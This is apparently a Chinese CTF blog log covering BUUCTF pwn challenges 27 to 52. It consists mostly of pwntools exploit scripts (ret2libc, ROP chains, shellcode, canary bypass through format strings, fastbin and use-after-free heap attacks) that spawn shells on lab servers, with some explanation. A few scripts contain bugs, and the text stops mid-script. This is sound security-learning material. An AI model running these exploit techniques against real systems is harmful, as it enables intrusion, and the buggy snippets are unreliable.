| return | leave_ret_addr |
|---|---|
| ebp | aaaa |
| /bin/sh | |
| /bin/sh_addr | |
| 0xdeadbeef | |
| esp | system_addr |
| s | 垃圾数据 |
当然此处我们还有一个问题就是'/bin/sh'的地址我们不知道。我们可以通过泄露原来ebp的值来确定，我们将此地址叫做addr，以免和ebp寄存器混淆
int vul()
{
char s[40]; // [esp+0h][ebp-28h]BYREF
memset(s, 0x20u);
read(0, s, 0x30u);
printf("Hello, %s\n", s);
read(0, s, 0x30u);
return printf("Hello, %s\n", s);
}
可以看到有一个printf函数
printf函数会打印s字符串，且遇到0就会停止打印，所以如果我们将addr之前的内容全部填充不为0的字符，就能将addr打印出来，我们通过地址再计算出addr到s的距离，我们就可以通过addr来表示/bin/sh所在的地址了。
我们先通过第一个read传入payload，然后通过printf打印出addr的值,然后通过第二个read函数构造栈转移，执行systeam('/bin/sh')
27 HarekazeCTF2019 baby_rop2
ret2libc，但是用printf输出read函数的地址
from pwn import *
from LibcSearcher import LibcSearcher
#p=process('./pwn')
p=remote('node5.buuoj.cn',25118)
elf=ELF('./pwn')
read_got=elf.got['read']
printf_plt=elf.plt['printf']
main_addr=elf.sym['main']
format_addr=0x400770 # 原本输出字符串的地址
pop_rdi = 0x400733
pop_rsi_r15 = 0x400731
payload=b'a'*0x20+b'b'*0x8 # 设置溢出覆盖返回地址
payload+=p64(pop_rdi)+p64(format_addr) # pop_rdi弹入原本字符串
payload+=p64(pop_rsi_r15)+p64(read_got)+p64(0)
# ret到pop_rsi_r15，将read的got表地址弹入rsi，随便一个东西弹入r15
payload+=p64(printf_plt)+p64(main_addr)
# ret到printf的plt表地址，也就是调用plt，然后返回main
p.sendlineafter(b"name?",payload)
p.recvuntil(b'!\n')
read_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc=LibcSearcher("read",read_addr)
libc_base=read_addr-libc.dump('read')
log.info("libc_base:"+hex(libc_base))
sys_addr=libc_base+libc.dump("system")
binsh_addr=libc_base+libc.dump("str_bin_sh")
payload2=b'a'*40+p64(pop_rdi)+p64(binsh_addr)+p64(sys_addr)+p64(0)
p.sendline(payload2)
p.interactive()
这道题远程直接cat flag不能用，先find -name "flag"找到flag放在了./home/babyrop2/flag里，再cat
28 picoctf_2018_rop chain
很简单的溢出、改数据，拿flag
注意里面这一句
if (win1 && win2 && a1 == -559039827)
是win1和win2,a1和-559039827,得到的结果再&&
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',26736)
win1_addr = 0x80485CB
win2_addr = 0x80485D8
flag = 0x804862B
pop_ebp = 0x80485d6
payload = b'a'*0x18+b'b'*0x4+p32(win1_addr)+p32(win2_addr)+p32(flag)+p32(0xBAAAAAAD)+p32
(0xDEADBAAD)
# 先返回到win1使得win1 = 1
# 然后返回win2，因为要与ebp+8比较，所以中间先加一个flag_addr
# 比较好了直接返回到flag_addr
# 然后与ebp+8进行比较，正好夹了一个0xBAAAAAAD
p.sendline(payload)
p.interactive()
29 pwn2_sctf_2016
先输入一个负值就可以溢出了，跟正常***libc***没区别，就是我的LibcSearcher没找到对应的libc，看网上师傅的博客有说选13，但是我的只显示到9
破案了，LibcSearcher会随机roll，看运气(有点过于艺术了)
roll了半个小时，靶机都过期了，算了，本地过了就行了，本地选5
from pwn import *
from LibcSearcher import *
from time import sleep
context(os='linux', arch='arm64', log_level='debug')
r = remote("node5.buuoj.cn",26858)
elf = ELF('./pwn')
printf_plt = elf.plt['printf']
printf_got = elf.got['printf']
start_addr = elf.sym['main']
r.recvuntil('read?')
r.sendline('-1')
r.recvuntil("data!\n")
payload = b'a' * (0x2c+4) + p32(printf_plt) + p32(start_addr) + p32(printf_got)
r.sendline(payload)
r.recvuntil('\n')
printf_addr=u32(r.recv(4))
libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr-libc.dump('printf')
system_addr = base+libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
r.recvuntil('read?')
r.sendline('-1')
r.recvuntil("data!\n")
payload = b'a'*(0x2c+4)+p32(system_addr)+p32(start_addr)+p32(bin_sh)
r.sendline(payload)
r.interactive()
30 jarvisoj_level3
ret2libc
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc-2.19.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28662)
def dbg():
gdb.attach(p)
pause()
write_plt = elf.plt['write']
write_got = elf.got['write']
main = elf.sym['main']
payload = b'b'*0x88+b'b'*0x4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(0x4)
p.recvuntil('Input:\n')
p.sendline(payload)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = b'b'*0x88+b'b'*0x4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload)
p.interactive()
31 ciscn_2019_s_3
施工中......
32 wustctf2020_getshell
ret2text
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25069)
def dbg():
gdb.attach(p)
pause()
payload = b'b'*0x18+b'b'*0x4+p32(0x8048524)
p.sendline(payload)
p.interactive()
33 ez_pz_hackover_2016 (动态调试入门)
一道很好的***动态调试***入门题
检查保护
[*] '/home/pwn/pwn/buuctf/33/pwn'
Arch: i386-32-little
RELRO: Full RELRO
Stack: No canary found
NX: NX unknown - GNU_STACK missing
PIE: No PIE (0x8048000)
Stack: Executable
RWX: Has RWX segments
Stripped: No
保护全关，有可读可写可执行段，可能是shellcode
看下题目

memchr函数在网上搜索一下就好，这里不做详细介绍，主要是看到最后有一个比较，如果在\n之前为crasheme，则可以进入vuln函数

明显的溢出漏洞，dest仅有0x32字节，但是可以读入0x400字节，往里面写入shellcode
思路
往s里写入shllcode，执行vuln函数后让dest溢出，将返回地址修改为shellcode的地址
实施
但是dest是栈上的数据，一般情况下我们是找不到我们写入的地址的，那就没办法执行shellcode的地址。
执行一次程序可以发现其实程序一开始就把我们输入的地址给我们了
printf("Yippie, lets crash: %p\n", s);
那么我们算出shellcode和我们输入的起始位置的偏移，就可以得到shellcode的地址
先写一个测试脚本
from pwn import *
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
p=process('./pwn')
context.log_level='debug'
gdb.attach(p,'b *0x8048600')#利用gdb动调，在0x8048600处下了个断点
p.recvuntil('crash: ')
stack=int(p.recv(10),16)
print (hex(stack))
payload='crashme\x00'+'aaaaaa'#前面的crashme\x00绕过if判断
#后面的aaaa是测试数据，随便输入的，我们等等去栈上找它的地址
pause()
p.sendline(payload)
pause()
0x8048600是一个nop指令的地址，在这里下一个断点，方便调试

这里输入地址的结尾是abc
按c执行下一步，然后输入stack 50看一下栈布局

解决一下shellcode在栈上的位置（填充多少数据合适）
可以看到我们输入的crashme有一部分在距离esp0x24处，因为没有对齐的原因，cr在上面一行，对应0x63 0x72(小端序)
然后ebp在0x38处，我们输入的参数0x22处（虽然左边标的是0x20，但是有两个字节不是我们输入的，真正输入的是0x72 0x63)，所以ebp距离我们输入点的距离是0x38-0x22=0x16，而shellcode是写在ebp后面的，也就是0x16+0x4的地方
payload = b'crashme\x00'+b'a'*(0x16-8+4)+p32(addr)
crashme\x00占8个字节减去，ebp占4个字节要覆盖
解决shllcode的地址问题
上面已经将我们的输入地址打印出来了（结尾是abc，在ebp下面）
既然我们只有一次输入机会，那么我们构造完返回地址之后直接跟着shellcode好了，所以直接把地址返回到ebp+8的位置就行
0xfff9eabc-0xfff9eaa0=0x1c，所以最终地址偏移为0x1c
最后得到exp
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
#elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
p=remote('node5.buuoj.cn',26858)
p.recvuntil('crash: ')
stack_addr=int(p.recv(10),16)
shellcode=asm(shellcraft.sh())
payload=b'crashme\x00'+b'a'*(0x16-8+4)+p32(stack_addr-0x1c)+shellcode
p.sendline(payload)
p.interactive()
34 jarvisoj_level3_x64
64位的***ret2libc***从栈传参变成了寄存器传参
from pwn import *
from LibcSearcher import *
p = remote('node5.buuoj.cn',28910)
#p=process('./pwn')
elf = ELF('./pwn')
rdi_add = 0x4006b3
rsir15_add = 0x4006b1
write_plt = elf.plt['write']
write_got = elf.got['write']
vul_add = elf.symbols['vulnerable_function']
payload = b'a'*0x80 + b'a'*0x8
payload1=payload+p64(rdi_add)+p64(0x1)+p64(rsir15_add)+p64(write_got)+b'deadbeef'+p64(write_plt)+p64(vul_add)
p.recvuntil("Input:\n")
p.sendline(payload1)
write_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_add = libc_base + libc.dump('system')
binsh_add =libc_base+libc.dump('str_bin_sh')
payload2 = payload + p64(rdi_add) + p64(binsh_add) + p64(sys_add)
p.sendline(payload2)
p.interactive()
35 mrctf2020_shellcode
ret2shellcode
ida没法反编译了，这次读汇编（其实只要传入shellcode就行）
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26947)
def dbg():
gdb.attach(p)
pause()
shellcode = asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
接下来看一下汇编

buf= byte ptr -410h ;buf 表示相对于基指针 rbp 偏移量为 -410h 的一个字节内存位置
var_4= dword ptr -4 ;var_4 表示相对于基指针 rbp 偏移量为 -4 的一个双字（32 位，4 字节）内存位置
push rbp
mov rbp, rsp
sub rsp, 410h
这里是开辟0x410字节空间的栈
中间一部分应该是缓冲区设置，没看懂，但也不需要看懂，跳过
lea rdi, s ; "Show me your magic!"
call _puts
-
lea rdi, s：将字符串"Show me your magic!"的地址加载到rdi寄存器中，作为_puts函数的参数。 -
call _puts：调用_puts函数输出字符串，并自动添加换行符。
lea rax, [rbp+buf]
mov edx, 400h ; nbytes
mov rsi, rax ; buf
mov edi, 0 ; fd
mov eax, 0
call _read
lea rax, [rbp+buf]：计算相对于基指针rbp偏移量为-410h的内存地址，并将其加载到rax寄存器中，作为读取数据的缓冲区地址。mov edx, 400h：将读取的最大字节数400h加载到edx寄存器中。mov rsi, rax：将缓冲区地址传递给_read函数的第二个参数。mov edi, 0：将文件描述符0（标准输入）传递给_read函数的第一个参数。mov eax, 0：将返回值寄存器eax清零。call _read：调用_read函数从标准输入读取最多400h字节的数据到缓冲区中。
mov [rbp+var_4], eax
cmp [rbp+var_4], 0
jg short loc_11D6
mov [rbp+var_4], eax：将_read函数的返回值（实际读取的字节数）保存到相对于基指针rbp偏移量为-4的内存位置（var_4)cmp [rbp+var_4], 0：比较实际读取的字节数是否为0，用于后续的条件判断。jg基于前面cmp [rbp+var_4], 0指令设置的标志位进行判断。[rbp+var_4]中存储的是_read函数实际读取的字节数，如果这个值大于 0，程序就会跳转到loc_11D6标签处继续执行；如果不满足条件（即读取的字节数小于等于 0），则继续顺序执行下一条指令。
若失败，即无读入（左边）
mov eax, 0
jmp short locret_11E4
mov eax, 0：将寄存器eax赋值为 0。在很多系统调用和函数返回中，eax通常用于存储返回值，这里将其置为 0 表示程序以正常状态退出或者操作失败的返回码。jmp short locret_11E4：无条件跳转到locret_11E4标签处，跳过后续代码直接进入函数返回流程。
若成功，即有读入（右边）
loc_11D6: ; CODE XREF: main+78↑j
lea rax, [rbp+buf]
call rax
mov eax, 0
loc_11D6：这是一个代码标签，当满足jg跳转条件时会跳转到这里。lea rax, [rbp+buf]：lea是加载有效地址指令，这里将相对于基指针rbp偏移量为-410h（前面定义的buf）的内存地址加载到rax寄存器中。call rax：这是一个间接调用指令，它会将程序控制权转移到rax寄存器所指向的地址处执行代码。mov eax, 0：同样将寄存器eax赋值为 0，可能用于表示函数的正常返回状态。
综上，可以很清楚的发现，直接往buf里面写入代码之后函数就会直接执行buf里的代码，所以直接注入shellcode就行
36 bjdctf_2020_babyrop2
格式化字符串+canary绕过+ret2libc
我记得写过canary绕过的wp，忘了在哪了，再写一份吧
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26391)
def dbg():
gdb.attach(p)
pause()
put_plt=elf.plt['puts']
put_got=elf.got['puts']
pop_rdi=0x0400993
main_addr=elf.symbols['main']
vuln_addr=0x400887
p.sendlineafter('help u!\n',b'%7$p')
p.recvuntil(b'0x')
canary = int(p.recv(16),16)
payload = p64(canary)
payload = payload.rjust(0x20,b'a')+b'a'*8+p64(pop_rdi)+p64(put_got)+p64(put_plt)+p64(vul
n_addr)
p.sendlineafter(b'story!\n',payload)
put_addr=u64(p.recv(6).ljust(8,b'\x00'))
libc=LibcSearcher('puts',put_addr)
libcbase=put_addr-libc.dump("puts")
system_addr=libcbase+libc.dump("system")
binsh_addr=libcbase+libc.dump("str_bin_sh")
payload = p64(canary)
payload = payload.rjust(0x20,b'a')+b'a'*8+p64(pop_rdi)+p64(binsh_addr)+p64(system_addr)+
p64(vuln_addr)
p.sendlineafter('story!\n',payload)
p.interactive()
审题
-
checksec一下，发现开启了NX和canary -
ida看一下，直接去
gift()函数 -

-
v2就是canary值（一会后面解释canary保护），距离rbp为
0x-8 - 这里还读入了format函数，格式化字符串试试，看看我们的第几个输入可以被解析为格式化字符
- 我是输入
aa%n$p,一个个试过去，看看哪个对应出61，最后发现输入aa%6$p的时候输出为aa0x702436256161，说明：第六个参数可以被解析成格式化字符串 - 接下来动态调试一下看看canary的值是哪个（不出意外就是后一个）
- 在printf处下断点，然后run运行到断点处，输入aa，然后查看栈结构

- canary值（v2)在rbp-8处，而我们输入的aa在它的上面，所以canary值可以用
%7$p打印出来
canary保护
简单来说，就是程序在开始运行前从一块只读数据中读出来一个随机数存在栈底（rbp上面一个），然后返回的时候看看栈底这个数变了没，变了就说明被栈溢出了，程序中断。
而想要绕过也很简单，只需要我们将canary的值读出来，在构造payload的时候放在它本来就该在的位置就好了
payload = p64(canary) # 写入canary值
payload = payload.rjust(0x20,b'a') # buf距离rbp为0x20，所以直接将canary和垃圾数据一起填满这32字节
后面3就是正常的ret2libc了，都写烂了要，不说了
37 babyheap_0ctf_2017
施工施工，heap先等等
38 bjdctf_2020_router
考察linux下的命令机制
命令一；命令二这样的格式会执行两种指令

ida里面一看，system(dest),前面还有一段将buf拼接到dest后面，那直接输入;cat flag秒了，exp都不用。直接nc
39 inndy_rop
rop一把梭*
打开ida一看，这么多函数，这么明显的溢出，直接ropchain一把梭
ROPgadget --binary pwn --ropchain直接可以生成rop链，把溢出填充好就直接用就行
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#r = process('./pwn')
r = remote('node5.buuoj.cn',29636)
def dbg():
gdb.attach(r)
pause()
#!/usr/bin/env python3
# execve generated by ROPgadget
from struct import pack
# Padding goes here
p = b'a'*0xC+b'b'*0x4
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += b'//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
p += pack('<I', 0x0806c943) # int 0x80
r.sendline(p)
r.interactive()
40 jarviso_level4
ret2libc
from pwn import *
from LibcSearcher import *
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28452)
def dbg():
gdb.attach(p)
pause()
main = elf.sym['main']
write_plt = elf.plt['write']
write_got = elf.got['write']
payload = b'a'*0x88+b'b'*0x4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(0x4)
p.sendline(payload)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info('libc_base:'+hex(libc_base))
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload = b'a'*0x88+b'b'*0x4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload)
p.interactive()
buu刷题记录（41-60题）
by Maple
41 picoctf_2018_buffer overflow 1
ret2text
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29931)
def dbg():
gdb.attach(p)
pause()
payload = b'b'*0x28+b'b'*0x4+p32(0x80485CB)
p.sendline(payload)
p.interactive()
42 jarvisoj_test_your_memory
ret2text
别看题上那些有的没的，有个溢出点，有个system,还有cat flag字符串，直接构造rop
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27254)
def dbg():
gdb.attach(p)
pause()
sys = 0x80485C9
flag_addr = 0x80487E0
payload = b'b'*0x13+b'b'*0x4+p32(sys)+p32(flag_addr)
p.sendline(payload)
p.interactive()
43 [ZJCTF 2019]EasyHeap
firstbin attack
 |
|---|
| 简单的菜单，增、改、删 |
 |
|---|
| 删除函数，这里置零了，没办法uaf |
 |
|---|
| 增，最多10个 |
 |
|---|
| 改，v2不受限，有堆溢出漏洞 |
同时我们看到一个不能实现的后门函数，虽然不能实现，但是为我们提供了system和/bin/sh
那么我们如果覆盖调用函数，将free的got表换为system的plt表，就可以在使用free时，使用的是system
利用过程
creat(0x68,b'a')
creat(0x68,b'b')
creat(0x68,b'c')
 |
|---|
通过查ida我们可以知道heaparry的地址是0x6020e0,那么查一下看看。但是这里不能伪装堆块，因为没有记录大小，所以我们再找找有没有合适的 |
 |
| 欸，找到了这个7f，那么我们可以借助这个，伪造出来一个大小为0x7f的堆块 |
delete(2)
#释放到fastbin中，进行fastbin attack，具体方式是修改fd为heap指针附近的地址
payload = b'/bin/sh\x00'+b'\x00'*0x60+p64(0x71)+p64(0x6020ad)
edit(1,payload)
#在heap1中写binsh，0x6020ad是修改fd为刚才定位到的fake heap（0x6020e0-0x33)
 |
|---|
| 操作后如下所示，释放的空间有了fd、也有了size |
接下来我们就有了一个可以随意操作的堆了，那么按照先前的思路，修改free罢
creat(0x68,b'a')
creat(0x68,b'b') #创建fake heap，实际上是指针数组前面0x33
payload2 = b'\x00'*0x23+p64(elf.got['free']) #前面已经有0x10用来存堆头了
edit(3,payload2)
 |
|---|
| 这里是执行完后的堆，可以发现啊，这里指针变为了0x602018（free的got表地址） |
payload3 = p64(elf.plt['system']) #覆盖free的got为system的plt
edit(0,payload3)
这样的话，在调用free时，是先找free的plt表，然后跳转到fre的got表再执行一次跳转，此时把free的got表改为system的plt，就会凋到system去执行
delete(1)
这里其实是执行system(‘/bin/sh’)
44 hitcontraining_uaf
uaf
uaf（use after free）：free是指函数在堆上动态分配空间后不再使用该数据从而被回收，但是由于一些不当操作，导致攻击者可以操控已经被释放的区域，从而执行一些byte codes
它的使用有以下几个条件;
- 在free函数被调用回收buffer之后，指向该地址的指针是否被重置
- 后续是否存在malloc函数可以将新申请分配的空间分配到之前被free()回收的buffer区域
- 利用没有被重置的指针进行攻击
接下来看一下这道题：

三个功能分别是增、删、输出；同时还有一个后门函数，地址为0x8048945
阅读一下add函数

这里在关键部分写了一些注释，我们可以看到，这一个函数创建了两个堆块，分别是存放函数指针的8字节堆块和存放内容的堆块，做出示意图如下

查看delete函数

查看print函数

执行了前面的一个puts函数，里面是内容
那么很容易想到，我们能不能让这个指向put_note的函数，变为指向后门的函数，这样就可以直接执行后门了
由于fastbin的机制，我们free掉申请的这两个块时，会产生的情况如下;
8字节的chunk1指针 -> chunk0指针 -> tail
n(<40字节) -> chunk1 -> chunk0 -> tail
那么我们malloc的时候，size选择0x8，add函数中先分配指针的堆块，然后分配content的堆块
8字节的chunk0 -> tail
chunk2的指针 == chunk1指针
chunk2_content == chunk0指针
因此打印chunk0的时候，chunk0的函数指针会指向chunk2的content,如果之前传入了后门函数，那就可以顺利执行
详细过程
首先我们写入两个大堆看看
add(16,'aaa')
add(16,'bbb')
 |
|---|
| 紫色是第一个put_note； 绿色是第一块堆的内容； 深蓝色是第二个put_note; 黄色是第二块堆的内容 |
delete(0)
delete(1)
 |
|---|
| 释放之后堆到了tcache bin中 |
magic = 0x8048945
add(8, p32(magic))
 |
|---|
| 清晰的看到深蓝色这里被写入了新的put_node； 这是因为Tache的后进先出原则，蓝色被分配用于存放put_note函数和参数 |
 |
| 执行下一步：可以看到，紫色部分也被修改了。因为紫色用于我们申请的内存，并且写入magic地址，并且这里本来应该执行put_note函数的，这里执行了后门函数，因此可以getshell |
from pwn import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'node5.buuoj.cn'
post = 26483
p = process('./pwn')
#p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
def dbg():
gdb.attach(p)
pause()
shell = 0x8048945
def add(size, content):
p.sendlineafter('choice :',b'1')
p.sendlineafter('Note size :',str(size).encode())
p.sendlineafter('Content :',content)
def delete(idx):
p.sendlineafter('choice :',b'2')
p.sendlineafter('Index :',str(idx).encode())
def printf(idx):
p.sendlineafter('choice :',b'3')
p.sendlineafter('Index :',str(idx).encode())
add(16,'aaa')
add(16,'bbb')
#dbg()
delete(0)
delete(1)
#dbg()
add(8,p32(shell))
dbg()
printf(0)
p.interactive()
45 pwnable_orw
沙箱
就是ban了一些危险的函数，但是以获得flag为目的的话也不需要非得getshell
from pwn import *
context(arch='i386',log_level = 'debug')
p = remote('node5.buuoj.cn',26440)
#p = process('./pwn')
bss = 0x804A060
shellcode = shellcraft.open('flag')
shellcode+=shellcraft.read('eax',bss+100,100)
shellcode+=shellcraft.write(1,bss+100,100)
payload = asm(shellcode)
p.recvuntil('shellcode:')
p.sendline(payload)
#log.info(p.recv())
p.interactive()
46 picoctf_2018_buffer overflow 2
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28047)
#gdb.attach(p)
payload = b'b'*0x6c+b'b'*0x4+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
p.sendline(payload)
p.interactive()
47 cmcc_simplerop
rop
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29845)
#gdb.attach(p)
read_addr = elf.sym['read']
pop_edx_ecx_ebx = 0x0806e850
binsh = 0x80EB584
int_addr = 0x80493e1 # int 0x80
pop_eax = 0x80bae06
payload = b'b'*0x20+p32(read_addr)+p32(0xdeadbeef)+p32(0)+p32(binsh)+p32(0x8)
payload+=p32(pop_eax)+p32(0xb)+p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(binsh)+p32(int_addr)
p.sendline(payload)
p.send('/bin/sh')
p.interactive()
分析分析
这种纯手工构造ROP还是可以分析分析的
-
首先是系统调用的知识，可以看这里
-
省流一下：
int 0x80就是系统调用（syscall），然后根据syscall(n)中n的值执行不同函数，其中0xb可以执行execve函数 -
接下来构造ROP
-
先是溢出覆盖，这里ida显示的不对，动态调试可以发现实际的偏移是0x1c

我们输入的相对位置是0x24,ebp的相对位置是0x40，实际偏移
0x40-0x24=0x1c -
因为程序中没有
/bin/sh函数，所以我们需要调用一下read函数，以此输入一个/bin/sh进去（这里binsh的地址是bss段，因为没开PIE，所以地址所见即所得） -
接下来第二行就是进行系统调用了，我们要申请的函数是
int 0x80(0xb,’/bin/sh‘, null, null); //对应寄存器eax, ebx, ecx, edx这四个寄存器地址也确实可以搜到，所以根据寄存器依次输入需要的数就好
48 [Black Watch 入群题]PWN
栈迁移+ret2libc
因为没有RWX段，所以不可以写入shellcode然后栈迁移执行
from pwn import *
#p = process('./pwn')
p = remote("node5.buuoj.cn", 25707)
elf = ELF('./pwn')
libc = ELF('./libc-2.23.so')
main_addr = 0x8048513
lea_ret_addr = 0x8048511
plt_write = elf.plt['write']
got_write = elf.got['write']
bss_s_addr = 0x804A300
payload1 = b'a' * 4 + p32(plt_write) + p32(main_addr) + p32(1) + p32(got_write) + p32(4)
p.sendafter("name?", payload1)
payload2 = b'a' * 0x18 + p32(bss_s_addr) + p32(lea_ret_addr)
p.sendafter("say?", payload2)
write_addr = u32(p.recv(4))
offset = write_addr - libc.symbols['write']
binsh = offset + libc.search('/bin/sh').__next__()
system = offset + libc.symbols['system']
payload3 = b'aaaa' + p32(system) + b'aaaa' + p32(binsh)
p.sendafter("name?", payload3)
p.sendafter("say?", payload2)
p.interactive()
49 wustctf2020_getshell_2
基础ROP
system(/sh)也可以getshell
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28502)
sh = 0x08048670
call_sys = 0x8048529
payload = b'b'*0x18+b'b'*0x4+p32(call_sys)+p32(sh)
p.recvuntil(b'\n')
p.sendline(payload)
p.interactive()
50 mrctf2020_easyoverflow
栈数据覆盖
发现当check(v5)等于n0t_r3@11y_f1@g时会getshell，然后v4的读入不限制长度，可以覆盖掉v5的值
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29336)
payload = b'b'*0x30+b'n0t_r3@11y_f1@g'
p.sendline(payload)
p.interactive()
51 bbys_tu_2016
ret2text
ida里面的偏移有问题，需要动态调试看看

这里-14，说明偏移为14
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25770)
#gdb.attach(p)
flag_addr = 0x804856D
payload = b'b'*0x18+p32(flag_addr)
p.sendline(payload)
p.interactive()
52 xdctf2015_pwn200
ret2libc
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context(os='linux', arch='amd64', log_level='debug')
e=ELF('./pwn')
p=remote('node5.buuoj.cn',25844)
write_got=e.got["write"]
write_plt=e.plt["write"]
main_add=e.sym["main"]
payload=b"a"*(0x6c+4)+p32(write_plt)+p32(main_add)+p32(1)+p32(write_got)+p32(5)
p.sendline(payload)
p.recvuntil("Welcome to XDCTF2015~!\n")
write=u32(p.recvuntil('\xf7')[-4:])
print("write:",hex(write))
libc_base=write-0xd43c0
system = 0x3a940 + libc_base
